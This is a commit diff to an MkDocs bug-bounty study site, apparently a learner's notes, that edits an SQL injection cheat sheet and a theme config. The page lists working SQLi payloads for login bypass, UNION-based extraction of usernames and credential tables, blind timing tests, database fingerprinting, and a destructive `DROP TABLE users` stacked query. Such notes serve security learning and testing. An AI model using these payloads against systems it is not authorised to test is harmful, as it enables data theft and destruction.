

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/sql-injection-fundamentals.md, in a window 1280 px wide and 1400 px high, scrolled down 5139 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

```diff
--- a/docs/bug-bounty-guide/sql-injection-fundamentals.md
+++ b/docs/bug-bounty-guide/sql-injection-fundamentals.md
@@ -4,12 +4,12 @@
 
 | Type | Description | Example | Useful/Where Can't Be Used |
 |------|-------------|---------|----------------------------|
-| Classic | Direct injection into input fields. | `' OR '1'='1` | Useful for basic input fields; can't use if input is sanitized. |
-| Union-Based | Uses UNION operator to extract data. | `' UNION SELECT NULL, username, password --` | Useful with multiple columns; can't use if UNION is blocked. |
-| Error-Based | Exploits database errors to reveal data. | `' AND 1=(SELECT COUNT(*))` | Useful with error messages; can't use if errors are suppressed. |
-| Blind (Boolean)| Infers data via true/false responses. | `' AND SUBSTRING(version(), 1, 1)=5` | Useful when errors are suppressed; can't use if responses are identical. |
-| Blind (Time-Based) | Delays response based on conditions. | `' OR IF(1=1, SLEEP(5), 0)` | Useful with no output; can't use if timing controls are strict. |
-| Stacked Queries | Executes multiple statements. | `'; DROP TABLE users; --` | Useful if multi-queries allowed; can't use if DBMS restricts it. |
+| Classic | Direct injection into input fields | `' OR '1'='1` | Useful for basic input fields; can't use if input is sanitized |
+| Union-Based | Uses UNION operator to extract data | `' UNION SELECT NULL, username, password --` | Useful with multiple columns; can't use if UNION is blocked |
+| Error-Based | Exploits database errors to reveal data | `' AND 1=(SELECT COUNT(*))` | Useful with error messages; can't use if errors are suppressed |
+| Blind (Boolean)| Infers data via true/false responses | `' AND SUBSTRING(version(), 1, 1)=5` | Useful when errors are suppressed; can't use if responses are identical |
+| Blind (Time-Based) | Delays response based on conditions | `' OR IF(1=1, SLEEP(5), 0)` | Useful with no output; can't use if timing controls are strict |
+| Stacked Queries | Executes multiple statements | `'; DROP TABLE users; --` | Useful if multi-queries allowed; can't use if DBMS restricts it |
 
 ## Useful links
 
@@ -29,6 +29,7 @@
 | `USE users;` | Switch to database |
 
 **Note:** SQL statements are not case sensitive but names are.
+
 **Note:** 3306 is the default port for MySQL.
 
 ### Tables
@@ -120,11 +121,11 @@ select * from logins where username like '%1'; DROP TABLE users;--'
 
 | Type                | Description                              | Use Case                        |
 |---------------------|------------------------------------------|---------------------------------|
-| In-band: Union-Based| Direct output via UNION query in specific column. | When output is displayed in a readable column. |
-| In-band: Error-Based| Triggers SQL errors to reveal query output. | When errors are shown on front-end. |
-| Blind: Boolean-Based| Uses true/false conditions to infer data. | When no output but page behavior changes. |
-| Blind: Time-Based   | Delays response with Sleep() to infer data. | When no output or behavior change, but delays detectable. |
-| Out-of-band         | Sends output to remote location (e.g., DNS). | When no direct output is accessible. |
+| In-band: Union-Based| Direct output via UNION query in specific column | When output is displayed in a readable column |
+| In-band: Error-Based| Triggers SQL errors to reveal query output | When errors are shown on front-end |
+| Blind: Boolean-Based| Uses true/false conditions to infer data | When no output but page behavior changes |
+| Blind: Time-Based   | Delays response with Sleep() to infer data | When no output or behavior change, but delays detectable |
+| Out-of-band         | Sends output to remote location (e.g., DNS) | When no direct output is accessible |
 
 **Note:** In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.
 
@@ -146,28 +147,40 @@ MySQL evaluates AND before OR, so a query with an OR and a TRUE condition (e.g.,
 
 | Payload            | Description                     | How It Works                                   |
 |--------------------|---------------------------------|------------------------------------------------|
-| `admin' or '1'='1` | Basic Auth Bypass (works if admin is a valid username) | Appends TRUE condition (`'1'='1`) to bypass login check. |
-| Username:`notadmin' or '1'='1` Password: `something' or '1'='1` | Basic Auth Bypass (works when username not known) | This works since the query evaluate to true irrespective of the username or password. |
-| `admin')-- -`      | Basic Auth Bypass With Comments | Closes query early with `)` and comments out rest with `--`. |
+| `'` | Single quote SQLi check | May return error message | useful to see if vulnerable to SQLi |
+| `admin' or '1'='1` | Basic Auth Bypass (works if admin is a valid username) | Appends TRUE condition (`'1'='1`) to bypass login check |
+| Username:`notadmin' or '1'='1` Password: `something' or '1'='1` | Basic Auth Bypass (works when username not known) | This works since the query evaluate to true irrespective of the username or password |
+| `admin')-- -`      | Basic Auth Bypass With Comments | Closes query early with `)` and comments out rest with `--`, the additional ` -` ensures the comments are activited by forcing a space after them |
 
 [Payload all the things: authentication bypass section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)
 
+**Note:**  Line comments with -- or #, in-line comment with /**/.
+
 ### Union Injection
+
+[Union Clause](https://dev.mysql.com/doc/refman/8.0/en/union.html)
 
 | Payload | Description |
 |---------|-------------|
-| `' order by 1-- -` | Detect number of columns using order by |
-| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
-| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
-| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
+| `' order by 1-- -` | Detect number of columns using order by, increment the integer until error states column does not exist |
+| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection, try a different numbers of columns until we get a success, using numbers as junk data will show which columns are displayed, however data type must match, NULL matches all data types |
+| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection to show DB version, with 'cn' as search query |
+| `' UNION SELECT 1,user(),3,4-- -` | Basic Union injection to show which user we are making the query as |
+| `' UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns to get username from the passwords table |
 
 ### DB Enumeration
 
+#### MySQL Fingerprinting
+
+| Payload          | When to Use                  | Expected Output                           | Wrong Output                              |
+|------------------|------------------------------|-------------------------------------------|-------------------------------------------|
+| `SELECT @@version` | Full query output            | MySQL Version (e.g., 10.3.22-MariaDB-1ubuntu1) | MSSQL returns MSSQL version; errors in others. |
+| `SELECT POW(1,1)`  | Numeric output only          | 1                                         | Errors in other DBMS.                     |
+| `SELECT SLEEP(5)`  | Blind/No output              | Delays response 5 seconds, returns 0      | No delay in other DBMS.                   |
+
 | Payload | Description |
 |---------|-------------|
-| `SELECT @@version` | Fingerprint MySQL with query output |
-| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
-| `cn' UNION select 1,database(),2,3-- -` | Current database name |
+| `cn' UNION select 1,database(),2,3-- -` | Current database name  |
 | `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
 | `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
 | `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -33,6 +33,14 @@ nav:
       - FTP: bug-bounty-guide/ftp-cheat.md
       - Gobuster: bug-bounty-guide/gobuster-cheat.md
 
-theme: material
-plugins:
-  - search
+theme:
+  name: material
+  palette:
+    - scheme: slate
+      toggle:
+        icon: material/weather-night
+        name: Switch to light mode
+    - scheme: default
+      toggle:
+        icon: material/weather-sunny
+        name: Switch to dark mode
```
